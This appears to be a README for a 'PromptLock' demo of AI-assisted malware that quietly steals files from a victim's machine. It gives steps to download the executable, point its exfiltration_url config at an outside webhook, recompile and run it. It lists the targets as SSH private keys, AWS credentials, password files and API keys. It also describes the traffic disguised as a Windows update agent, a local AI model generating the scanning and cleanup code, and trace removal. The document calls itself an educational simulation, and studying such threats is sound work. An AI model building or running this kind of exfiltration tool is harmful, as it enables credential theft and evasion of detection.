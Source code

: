 # Stealth Data Exfiltration Demo

This demo shows how AI-powered malware can stealthily extract sensitive data from a victim's machine without any obvious ransomware behavior.

## How to Run the Demo

1. **Download the malware** from the website: https://promptlock-ransomware-demo.vercel.app
2. **Get a webhook URL** (see below)
3. **Update the malware config** (see below)
4. **Run the executable** and monitor the exfiltration

## How to See the Exfiltrated Data

### Step 1: Get Your Webhook URL
1. Go to: **https://webhook.site**
2. You'll automatically get a unique URL like: `https://webhook.site/ab12cd34-ef56-gh78-...`
3. **Keep this page open** - this is where you'll see the stolen data appear!

### Step 2: Update the Malware (Optional)
The malware is currently configured to send data to a demo webhook. To see the data yourself:

1. Edit `promptlock_executable.go` 
2. Update the `exfiltration_url` in the config:
```go
"exfiltration_url": "https://webhook.site/YOUR-UNIQUE-ID-HERE",
```
3. Recompile: `go build -o promptlock promptlock_executable.go`

### Step 3: Run and Monitor
1. Run the malware executable
2. **Watch the stolen data appear in real-time on webhook.site!** 🎯

The webhook will show:
- Complete JSON payload with all stolen files
- HTTP headers (including the disguised `Windows-Update-Agent` user agent)  
- Timestamp of the exfiltration
- All sensitive data that was "stolen"

### Alternative: Network Monitoring
```bash
# Monitor exfiltration traffic
tcpdump -i any host webhook.site

# Monitor AI traffic  
netstat -an | grep 11434
```

## What Gets Exfiltrated

The malware silently steals:
- SSH private keys (`~/.ssh/id_rsa`)
- AWS credentials (`~/.aws/credentials`) 
- Password files (`~/Documents/passwords.txt`)
- API keys (`~/.config/api_keys.json`)
- Financial data (`~/Desktop/financial_data.xlsx`)

## Demo Flow

1. **File Analysis**: AI generates scripts to scan for sensitive files
2. **Data Extraction**: AI creates code to copy sensitive data 
3. **Stealth Upload**: Malware disguises itself as "Windows Update Agent" and sends data to external server
4. **Cleanup**: AI generates code to remove all traces

The malware sends actual prompts to a local AI model (Ollama) while simultaneously exfiltrating realistic sensitive data to the external webhook server.

## Network Monitoring

You can also monitor the network traffic:
```bash
# Monitor AI traffic
netstat -an | grep 11434

# Monitor exfiltration traffic  
tcpdump -i any host webhook.site
```

## Safety Notes

- This is a **simulation** for educational purposes
- No real data is stolen
- No actual encryption occurs
- All "sensitive data" is fake/demo content
- The AI doesn't generate harmful content - it just receives prompts for logging 
